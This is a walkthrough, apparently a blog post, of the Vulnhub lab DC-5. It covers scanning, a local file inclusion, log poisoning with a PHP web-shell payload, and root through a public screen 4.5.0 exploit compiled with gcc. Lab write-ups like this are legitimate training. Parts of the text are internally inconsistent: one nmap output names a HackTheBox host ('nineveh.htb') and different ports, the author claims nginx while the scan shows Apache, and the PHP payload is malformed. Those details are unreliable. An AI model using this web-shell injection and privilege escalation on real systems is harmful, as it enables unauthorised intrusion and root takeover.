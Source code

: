 ```yaml
---
title:     "Vulnhub - DC 5"
tags: [easy,lfi,log-poisoning]
categories: Vulnhub
---
```


![](https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/dc5/1.png)
Today, We are going to pwn DC 5 by DCAU7 from Vulnhub


## Description
>DC-5 is another purposely built vulnerable lab with the intent of gaining experience in the world of penetration testing.
The plan was for DC-5 to kick it up a notch, so this might not be  great for beginners, but should be ok for people with intermediate or  better experience. Time will tell (as will feedback).
As far as I am aware, there is only one exploitable entry point to  get in (there is no SSH either). This particular entry point may be  quite hard to identify, but it is there. You need to look for something a  little out of the ordinary (something that changes with a refresh of a  page). This will hopefully provide some kind of idea as to what the  vulnerability might involve.
And just for the record, there is no phpmailer exploit involved. :-)
The ultimate goal of this challenge is to get root and to read the one and only flag.
Linux skills and familiarity with the Linux command line are a must, as is some experience with basic penetration testing tools.
For beginners, Google can be of great assistance, but you can always  tweet me at @DCAU7 for assistance to get you going again. But take note:  I won't give you the answer, instead, I'll give you an idea about how  to move forward.
But if you're really, really stuck, you can watch this video which shows the first step.

Download link: <https://www.vulnhub.com/entry/dc-5,314/>

Lets Begin with our Initial Scan

## Nmap Scan Results

```
PORT      STATE SERVICE
80/tcp    open  http
111/tcp   open  rpcbind
45669/tcp open  unknown
```

```
PORT    STATE SERVICE  VERSION
80/tcp  open  http     Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
443/tcp open  ssl/http Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
| ssl-cert: Subject: commonName=nineveh.htb/organizationName=HackTheBox Ltd/stateOrProvinceName=Athens/countryName=GR
| Not valid before: 2017-07-01T15:03:30
|_Not valid after:  2018-07-01T15:03:30
|_ssl-date: TLS randomness does not represent time
| tls-alpn: 
|_  http/1.1
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Aggressive OS guesses: Linux 3.10 - 4.11 (92%), Linux 3.12 (92%), Linux 3.13 (92%), Linux 3.13 or 4.2 (92%), Linux 3.16 (92%), Linux 3.16 - 4.6 (92%), Linux 3.18 (92%), Linux 3.2 - 4.9 (92%), Linux 3.8 - 3.11 (92%), Linux 4.2 (92%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
```

Looks like only HTTP port is open so lets start our Gobuster

## Gobuster Result
```
===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://10.0.2.9
[+] Threads:        10
[+] Wordlist:       /usr/share/wordlists/dirb/common.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Timeout:        10s
===============================================================
2019/11/27 17:30:35 Starting gobuster
===============================================================
/css (Status: 301)
/images (Status: 301)
/index.php (Status: 200)
===============================================================
2019/11/27 17:30:36 Finished
===============================================================
```

Well gobuster didn’t find anything interesting.

Lets Check the webpage and nothing Interesting too.

![](https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/dc5/1.png)

But there is form in ``contact`` page.

![](https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/dc5/2.png)

So i filled some random datas and submitted

![](https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/dc5/3.png)

## Getting Shell

### Finding LFI

Once submitted it redirects to some new page with some kind of parameters. I think it is vulnerable to LFI (Local File Inclusion)
So lets test it.

![](https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/dc5/4.png)
Its Confirmed!!
Now all we need to do is get a reverse shell.

### LFI -> RCE
We know its running in nginx from nmap scans so we can do log poisoning.
For that we need to send a request

`` <?php system($_GET['cmd']); >>``

Now its injected , we know log files of nginx located in ``/var/log/nginx/error.log``

![](https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/dc5/5.png)
For more info read this article:
>https://www.hackingarticles.in/rce-with-lfi-and-ssh-log-poisoning/

We got the shell

![](https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/dc5/6.png)

## Privilege Escalation

I uploaded my Linux Enumeration Script and found SETUID file

![](https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/dc5/7.png)

>screen 4.5.0

Searchsploit shows me an exploit available

![](https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/dc5/8.png)

> <https://www.exploit-db.com/exploits/41154>

I uploaded the script to the machine and tried running but i faced some error , so i split them into 3 parts

![](https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/dc5/9.png)

And did the same commands

```
gcc -fPIC -shared -ldl -o exploit.so exploit.c
gcc -o rootshell rootshell.c
```
Now I uploaded them

![](https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/dc5/10.png)

Run 411.sh

![](https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/dc5/11.png)

We got Root 

``Flag`` <br/>
![](https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/dc5/13.png)

